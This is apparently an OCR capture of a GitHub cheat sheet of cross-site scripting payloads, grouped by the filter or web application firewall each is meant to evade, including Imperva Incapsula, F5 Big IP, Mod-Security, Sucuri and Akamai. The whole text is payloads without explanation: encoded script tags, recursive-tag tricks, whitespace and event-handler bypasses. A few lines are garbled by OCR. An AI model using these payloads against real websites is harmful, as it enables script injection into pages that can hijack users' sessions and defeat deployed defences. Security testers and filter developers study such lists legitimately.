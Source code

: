 ````html
<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>

# URL
<a href="javascript:x='%27-alert(1)-%27';">XSS</a>

# Hex
<script>eval('\\\\x61lert(1)')</script>

# Only lowercase block
<sCRipT>alert(1)</sCRipT>

# Break regex
<script>%0aalert(1)</script>

# Recursive filters
<scr<script>ipt>alert(1)</scr</script>ipt>

# Inject anchor tag
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">

# Bypass whitespaces
<svg·onload=alert(1)>

# Brutelogic
\\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!

# Imperva Incapsula
%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
<img/src="x"/onerror="[JS-F**K Payload]">
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\\\\ert\\\\`1\\\\``'>

# WebKnight
<details ontoggle=alert(1)>
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

# F5 Big IP
<body style="height:1000px" onwheel="[DATA]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="[JS-F**k Payload]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">

# PHP-IDS
<svg+onload=+"[DATA]"
<svg+onload=+"aler%25%37%34(1)"

# Mod-Security
<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>

# Sucuri WAF
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4

# Akamai
1%3C/script%3E%3Csvg/onload=prompt(document[domain])%3E
````